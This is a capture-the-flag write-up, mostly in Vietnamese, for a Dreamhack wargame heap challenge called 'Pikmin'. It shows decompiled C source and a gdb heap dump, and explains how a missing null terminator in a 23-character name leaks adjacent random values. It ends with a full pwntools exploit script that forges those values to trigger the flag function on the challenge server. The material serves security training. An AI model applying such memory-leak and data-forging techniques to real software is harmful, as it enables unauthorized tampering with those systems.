



# Decription

[](https://dreamhack.io/wargame/challenges/2006)

# Source

```c
int sub_13AB()
{
  puts("1. Plant Pikmin");
  puts("2. See Pikmin");
  puts("3. Rename Pikmin");
  puts("4. Harvest Pikmin");
  puts("5. Exit game");
  return printf("> ");
}

__int64 random()
{
  unsigned int ptr; // [rsp+Ch] [rbp-14h] BYREF
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  ptr = 0;
  stream = fopen("/dev/urandom", "r");
  if ( !stream )
  {
    puts("[!] Random generator error. Send DM to rootsquare...");
    exit(1);
  }
  fread(&ptr, 1uLL, 4uLL, stream);
  fclose(stream);
  return ptr;
}

__int64 randon2()
{
  char ptr; // [rsp+Fh] [rbp-11h] BYREF
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen("/dev/urandom", "r");
  if ( !stream )
  {
    puts("[!] Random generator error. Send DM to rootsquare...");
    exit(1);
  }
  fread(&ptr, 1uLL, 1uLL, stream);
  fclose(stream);
  return ptr & 7;
}

unsigned __int64 plant()
{
  unsigned int v0; // ebx
  __int64 v1; // rbx
  unsigned int slot; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v4; // [rsp+8h] [rbp-18h]

  v4 = __readfsqword(0x28u);
  slot = 0;
  printf("Enter slot index : ");
  __isoc99_scanf("%d", &slot);
  if ( slot >= 4 )
  {
    puts("Invalid index.");
  }
  else if ( idx[slot] )
  {
    puts("Pikmin already planted on that slot.");
  }
  else
  {
    v0 = slot;
    idx[v0] = (__int64)malloc(24uLL);
    printf("Enter name of pikmin : ");
    __isoc99_scanf("%23s", idx[slot]);
    v1 = idx[slot];
    *(_DWORD *)(v1 + 16) = random();
    *(_DWORD *)(idx[slot] + 20) = (unsigned __int8)randon2();
    dword_4060[slot] = *(_DWORD *)(idx[slot] + 16);
    printf("Planted new pikmin at slot %d.\n", slot);
  }
  return v4 - __readfsqword(0x28u);
}

unsigned __int64 sub_1715()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  printf("Enter slot index : ");
  __isoc99_scanf("%d", &v1);
  if ( v1 >= 4 )
  {
    puts("Invalid index.");
  }
  else if ( idx[v1] )
  {
    printf("Pikmin name : %s\n", (const char *)idx[v1]);
  }
  else
  {
    puts("That slot is empty.");
  }
  return v2 - __readfsqword(0x28u);
}

unsigned __int64 rename()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  printf("Enter slot index : ");
  __isoc99_scanf("%d", &v1);
  if ( v1 >= 4 )
  {
    puts("Invalid index.");
  }
  else if ( idx[v1] )
  {
    printf("Enter new name : ");
    __isoc99_scanf("%23s", idx[v1]);
  }
  else
  {
    puts("That slot is empty.");
  }
  return v2 - __readfsqword(0x28u);
}

unsigned __int64 havert()
{
  unsigned int v1; // [rsp+8h] [rbp-58h] BYREF
  int v2; // [rsp+Ch] [rbp-54h]
  _QWORD v3[9]; // [rsp+10h] [rbp-50h]
  unsigned __int64 v4; // [rsp+58h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v1 = 0;
  v2 = 0;
  v3[0] = "Red";
  v3[1] = "Yellow";
  v3[2] = "Blue";
  v3[3] = "Purple";
  v3[4] = "White";
  v3[5] = "Rock";
  v3[6] = "Winged";
  v3[7] = "Ice";
  v3[8] = "Flag";
  printf("Enter slot index : ");
  __isoc99_scanf("%d", &v1);
  if ( v1 >= 4 )
  {
    puts("Invalid index.");
  }
  else if ( idx[v1] )
  {
    if ( *(_DWORD *)(idx[v1] + 16) != dword_4060[v1] || *(_DWORD *)(idx[v1] + 20) > 8u )
      anti();
    printf("You harvested pikmin %s at slot %d.\n", (const char *)idx[v1], v1);
    v2 = *(_DWORD *)(idx[v1] + 20);
    printf("You got a %s pikmin!\n", (const char *)v3[v2]);
    free((void *)idx[v1]);
    idx[v1] = 0LL;
    if ( v2 == 8 )
      win();
  }
  else
  {
    puts("That slot is empty.");
  }
  return v4 - __readfsqword(0x28u);
}

void __noreturn sub_1B3B()
{
  int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; i <= 3; ++i )
  {
    free((void *)idx[i]);
    idx[i] = 0LL;
  }
  puts("[Anti-cheating] You are banned!");
  exit(1);
}

unsigned __int64 sub_1BAF()
{
  FILE *stream; // [rsp+8h] [rbp-68h]
  _QWORD v2[11]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  memset(v2, 0, 80);
  stream = fopen("flag.txt", "rt");
  if ( !stream )
  {
    puts("[!] Flag file error. Send DM to rootsquare...");
    exit(1);
  }
  __isoc99_fscanf(stream, "%s", v2);
  fclose(stream);
  printf("A flag pikmin give you a flag : %s\n", (const char *)v2);
  return v3 - __readfsqword(0x28u);
}


int __fastcall main(int argc, const char **argv, const char **envp)
{
  int choice; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("Pikmin v0.1");
  while ( 1 )
  {
    choice = 0;
    menu();
    __isoc99_scanf("%d", &choice);
    switch ( choice )
    {
      case 1:
        plant();
        break;
      case 2:
        see();
        break;
      case 3:
        rename();
        break;
      case 4:
        havert();
        break;
      case 5:
        puts("Good bye!");
        exit(0);
      default:
        puts("Invalid input! Try again.");
        break;
    }
  }
}
```

# Problem

Trong hàm plant có 2 hàm random. Random 1 sẽ ghi vào 4 bytes tại v1+16.

Random2 ghi 1 bytes vào v1 +20

Trong hàm havert sẽ check 2 cái random. Để bypass thì v1+16 = random1 và v1+20 <= 8.

# Solve

Để lấy flag thì v1+20 = 8.

Trong gdg:
```c
0x555555559290  0x0000000000000000      0x0000000000000021      ........!.......
0x5555555592a0  0x676e6f6c676e6f6c      0x676e6f6c676e6f6c      longlonglonglong
0x5555555592b0  0x00000001febc3ea8      0x00000000000001e1      .>..............
0x5555555592c0  0x0000000555555559      0x723555db5e4195b5      YUUU......A^.U5r         <-- tcachebins[0x1e0][0/1]
```

Vì sau khi nhập 24 bytes trong plant mới random nên 16 bytes đầu giữ nguyên còn 5 bytes sau chính là random1 và random2.

Chọn option 2 để leak và nhận 2 giá trị random.

Sau đó chọn 3 để rename, thay đổi giá trị nhập vào với random1 và random2 =8

Chọn 4 để lấy flag.







# Full Script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('pikmin', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b* main+136
        c
        ''')
        input()


if args.REMOTE:
    p = remote('host8.dreamhack.games', 19383)
else:
    p = process([exe.path])
GDB()

sla(b'> ', b'1')
sla(b'slot index : ', b'0')
sla(b'of pikmin : ', b'a'*23)
sla(b'> ', b'2' )
sla(b'slot index : ', b'0')
p.recvuntil(b'a'*16)
random1 = u32(p.recv(4))
random2 = u32(p.recv(1) + b'\x00\x00\x00')
log.info('Randon1: ' + str(random1))
log.info('Randon2: ' + str(random2))

sla(b'> ', b'3')
sla(b'slot index : ', b'0')
payload = b'a'*16 + p32(random1) + p16(8)
sla(b'new name : ', payload)

sla(b'> ', b'4')
sla(b'slot index : ', b'0')
p.recvuntil(b'a flag : ')
flag = p.recvline()

log.success("FLag For YOU: " + str(flag))
p.interactive()
```
